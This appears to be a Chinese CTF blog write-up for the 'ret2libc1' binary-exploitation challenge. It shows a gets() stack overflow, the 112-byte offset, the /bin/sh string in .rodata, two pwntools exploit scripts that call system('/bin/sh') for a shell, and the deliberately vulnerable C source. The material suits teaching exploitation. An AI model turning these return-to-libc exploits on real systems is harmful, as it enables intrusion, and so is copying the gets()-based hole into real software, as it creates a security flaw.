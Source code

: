 ```yaml
---
layout:     post
title:      ret2libc1
subtitle:   解题思路
date:       2018-07-06
author:     Mao
header-img: img/home-bg-geek.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```




环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida

程序下载



分析程序，发现main函数中存在gets函数有溢出

![image-20180911173621421](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-094637.png)



利用gdb定位溢出点，第113个字符开始覆盖ret返回地址

![image-20180911174258124](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-094302.png)



确定返回地址

观察ida反编译结果，发现程序中存在system函数，但是它不是直接执行的system('/bin/sh')命令，而是system('/shell!?')，所以我们需要找到 ‘/bin/sh’ 字符串传到system函数中

![image-20180911174427074](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-094645.png)



寻找/bin/sh字符串位置

![image-20180911202516403](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-122519.png)



找到rodata段中定义的/bin/sh字符串

![image-20180911202553281](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-124033.jpg)



所以这里就有两种思路，第一种通过plt表调用system函数，第二种通过跳转到程序中call system这句指令的地址来执行system('/bin/sh')



exp1.py

```python
#!/usr/bin/env python

from pwn import *

sh = process('./ret2libc1')
elf = ELF('./ret2libc1')

system_addr = elf.plt['system']
binsh_addr = 0x8048720

sh.sendline('a'*112 + p32(system_addr) + 'b'*4 + p32(binsh_addr))


sh.interactive()
```

执行结果

![image-20180911202735712](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-124025.jpg)



exp2.py

```python
#!/usr/bin/env python

from pwn import *

sh = process('./ret2libc1')

system_addr = 0x08048611   #call system 指令的地址
binsh_addr = 0x8048720

sh.sendline('a'*112 + p32(system_addr) + p32(binsh_addr))
sh.interactive()
```



执行结果：

![image-20180911203302487](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-123336.jpg)



ret2libc1源代码

```c
ret2libc1.c

#include <stdio.h>

#include <stdlib.h>

#include <time.h>


char *shell = "/bin/sh";
char buf2[100];

void secure(void)
{
    int secretcode, input;
    srand(time(NULL));

    secretcode = rand();
    scanf("%d", &input);
    if(input == secretcode)
        system("shell!?");
}

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf1[100];

    printf("RET2LIBC >_<\n");
    gets(buf1);

    return 0;
}
```

